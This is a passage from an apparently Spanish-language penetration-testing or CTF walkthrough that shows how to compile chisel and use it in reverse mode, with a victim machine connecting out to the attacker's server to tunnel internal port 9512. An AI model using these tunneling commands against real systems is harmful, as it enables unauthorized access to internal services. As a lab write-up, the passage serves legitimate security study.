 Después de esto tendremos que descargar el repo completo de chisel en nuestra maquina de atacante

lo compilaremos de esta forma para que pese lo menos posible (no afecta en nada si no agregas los parámetro -s -w )

```bash
go build -ldflags "-s -w " .
```

![paste](./images/33.jpeg)

![paste](./images/34.jpeg)

## Conectado chisel

En nuestra maquina de atacante, que va a actuar como el servidor levantaremos el servicio por un puerto que tengamos desocupado (ejemplo: Puerto:1234)

```bash
chisel server -p Port --reverse
```

y en la maquina victima que estará en modo cliente tu IP y el puerto que especificaste en chisel, seguido del puerto que quieres conectar 

```powershell
./chisel client your_ip:your_Port 9512:127.0.0.1:9512
```

![paste](./images/35.jpeg)